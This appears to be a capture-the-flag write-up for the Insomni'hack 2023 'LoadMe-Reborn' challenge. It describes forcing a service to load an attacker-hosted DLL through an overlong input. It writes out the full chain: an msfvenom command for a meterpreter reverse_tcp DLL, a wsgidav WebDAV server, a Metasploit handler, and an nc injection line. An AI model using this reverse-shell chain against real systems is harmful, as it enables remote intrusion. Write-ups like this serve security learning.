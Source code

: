# Insomni'hack - LoadMe-Reborn   
This repository is a solution for the flag LoadMe-Reborn for 2023's editions of insomni'hack.   
## The flag   
The flags begin with a simple instructions, that someone had developped an application to do a recipe with given components. They give us a nc command so we can connect to this app :
(I have forgot the command that they gave us, but it should be like this one)
```
nc 10.1.2.13 1234
```
Then, we have a beautiful cli's app that ask us for ingredients so they can cook, if you try to write some ingredients and hit enter, it'll tell us that the kitchen is closed. But it'll echo back the ingredients that we had typed before closing.
The simple trick here is to type list a ingredients so long that they will be an error. The important line in the error is that he has tried to load a DLL library but it was unable to load it, simply because it doesn'it exists ! It has tried to load a DLL with the end of the string that you had typed, so from here we can execute a DLL library of our choice, even our own !   
So we need to have a DLL that can do a reverse shell so we have acces directly to the server that is running the app. For that I have used msfvenom : 
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=myIPAdress LPORT=4444 -f dll -o msf.DLL
```
And then we need a share that the server can use, the first thing that I had tried is smb share, but unfortunately, it has been blocked via a regex, so we need another technology, the next this I tried was webdav and it worked !
You need to host a webdav server, for that I have used wsgidav, it is a generic and extendable WebDAV server written in Python and based on WSGI. I have used this command, you need to launch it where you have generated your DLL library.
```
wsgidav --host=0.0.0.0 --port=80 --root=./ --auth=anonymous
```
Before loading your library on the server, you need to prepare for the reverse shell with those command :
```
./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost your_ip_address
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run
```
And the you can launch your DLL on the server with this command : 
```
echo '(stringlongenoughtodotheerror)//youripadress@80/msf' | nc 10.1.2.13 1234
```
It'll launch the nc command and the enter the string between the ' ' after the echo. Now in the shell where you have executed the reverse shell command, you have to the server and get the flag who is in the .txt file !
## Sources
msfvenom : 
* https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking
* https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-a-reverse-shell-in-metasploit.html

wsgidav :
* https://wsgidav.readthedocs.io/en/latest/
